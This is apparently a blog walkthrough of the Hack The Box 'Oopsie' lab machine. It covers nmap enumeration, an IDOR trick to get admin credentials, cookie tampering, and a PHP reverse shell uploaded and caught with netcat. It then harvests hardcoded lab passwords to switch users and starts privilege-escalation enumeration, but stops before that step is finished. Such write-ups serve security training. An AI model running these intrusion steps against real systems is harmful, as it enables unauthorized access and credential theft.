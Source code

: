 ```yaml
---
layout: post
title: 'HTB | Oopsie'
date: 2022-03-06
permalink: /htb/starting-point/oopsie/
---
```


# [](header-4)Enumeration

The nmap will show us:
{% highlight plain %}
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-05 16:47 EST
Nmap scan report for 10.129.111.155
Host is up (0.048s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.95 seconds
{% endhighlight %}

If we search the ip in the Firefox we can access to a webpage:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/htb/starting-point/img/Screenshot_3.jpg" weight="100%" />

Now we can set Firefox to listen to **Burp Suite**:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/htb/starting-point/img/Screenshot_4.jpg" weight="100%" />

In the Burp Suite app we can see there is a login:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/htb/starting-point/img/Screenshot_5.jpg" weight="100%" />

# [](#header-4)Foothold

Now we have access to the login page:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/htb/starting-point/img/Screenshot_6.jpg" weight="100%" />

We can see we need super admin privilages to get access to the super admin account:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/htb/starting-point/img/Screenshot_7.jpg" weight="100%" />

We can see the **id=2**.:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/htb/starting-point/img/Screenshot_8.jpg" weight="100%" />

If we change to 1:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/htb/starting-point/img/Screenshot_9.jpg" weight="100%" />

Now we can use those credentials to change the cookies:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/htb/starting-point/img/Screenshot_10.jpg" weight="100%" />

We will upload a reverse shell in php and use gobuster to find where it is uploaded:
{% highlight plain %}
$ gobuster dir -u http://10.129.95.191/ -w /usr/share/wordlists/directory-list-2.3-small.txt -x php 

/uploads              (Status: 301) [Size: 316] [--> http://10.129.95.191/uploads/]
{% endhighlight %}

We will open a netcat and execute the reverse shell through the browser:
{% highlight plain %}
$ sudo nc -lvvp 1234
{% endhighlight %}

Now we have access to the system and to the user flag:
{% highlight plain %}
$ cat /home/robert/user.txt
{% endhighlight %}

We can import a python module to get a better shell:
{% highlight plain %}
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
{% endhighlight %}


# [](#header-4)Privilege Escalation

Inside we can search in the Apache server and find the password:
{% highlight plain %}
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat * | grep pass
        if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
{% endhighlight %}

In the **db.php** file we can get another passwords:
{% highlight plain %}
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
        <?php
        $conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
        ?>
{% endhighlight %}

We can now use that password to access robert user:
{% highlight plain %}
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
Password: M3g4C0rpUs3r!
{% endhighlight %}

With the **id** command we can see that Robert is in the same group as bugtracker.
{% highlight plain %}
robert@oopsie:/$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
{% endhighlight %}

We can now search for the bugtracker group:
{% highlight plain %}
robert@oopsie:/$ find / -group bugtracker
/usr/bin/bugtracker
{% endhighlight %}


{% highlight plain %}

{% endhighlight %}
